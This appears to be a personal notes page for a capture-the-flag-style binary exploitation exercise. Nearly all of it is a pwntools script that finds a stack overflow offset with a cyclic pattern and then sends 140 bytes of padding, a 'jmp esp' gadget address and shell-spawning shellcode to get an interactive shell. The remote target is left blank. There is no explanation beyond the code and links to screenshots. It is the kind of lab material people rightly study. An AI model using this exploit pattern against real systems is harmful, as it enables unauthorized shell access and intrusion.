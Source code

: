 
from pwn import *
import sys

context.update(arch='i386', os='linux')

io = process("./executable_stack")

io = remote("", ###)

gdb.attach(io, 'continue')
pattern = cyclic(512)
io.sendline(pattern)
pause()
sys.exit()


![[Pasted image 20231227205849.png]]



binary = ELF("./executable_stack")
jmp_esp = next(binary.search(asm("jmp esp")))

print (hex(jmp_esp))

exploit = flat(["A" * 140, pack(jmp_esp), asm(shellcraft.sh())])

io.sendline(exploit)
io.interactive()


![[Pasted image 20231227210023.png]]

![[Pasted image 20231227210257.png]]


